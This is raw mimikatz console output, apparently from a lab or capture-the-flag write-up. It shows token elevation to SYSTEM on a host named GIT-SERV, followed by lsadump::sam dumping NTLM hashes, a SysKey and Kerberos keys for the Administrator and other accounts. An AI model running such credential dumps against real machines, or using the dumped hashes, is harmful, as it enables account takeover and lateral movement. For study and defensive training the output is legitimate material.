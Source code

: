 ```

668     {0;000003e7} 1 D 20153          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00501fb8} 3 F 6391130     GIT-SERV\max    S-1-5-21-3335744492-1614955177-2693036043-1003  (15g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6436616     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz # lsadump::sam
Domain : GIT-SERV
SysKey : 0841f6354f4b96d21b99345d07b66571
Local SID : S-1-5-21-3335744492-1614955177-2693036043

SAMKey : f4a3c96f8149df966517ec3554632cf4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae

* Primary:Kerberos-Newer-Keys *
    Default Salt : WIN-1696O63F791Administrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8f7590c29ffc78998884823b1abbc05e6102a6e86a3ada9040e4f3dcb1a02955
      aes128_hmac       (4096) : 503dd1f25a0baa75791854a6cfbcd402
      des_cbc_md5       (4096) : e3915234101c6b75

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WIN-1696O63F791Administrator
    Credentials
      des_cbc_md5       : e3915234101c6b75


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: c70854ba88fb4a9c56111facebdf3c36

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : e389f51da73551518c3c2096c0720233

* Primary:Kerberos-Newer-Keys *
    Default Salt : WDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 1d916df8ca449782c73dbaeaa060e0785364cf17c18c7ff6c739ceb1d7fdf899
      aes128_hmac       (4096) : 33ee2dbd44efec4add81815442085ffb
      des_cbc_md5       (4096) : b6f1bac2346d9e2c

```
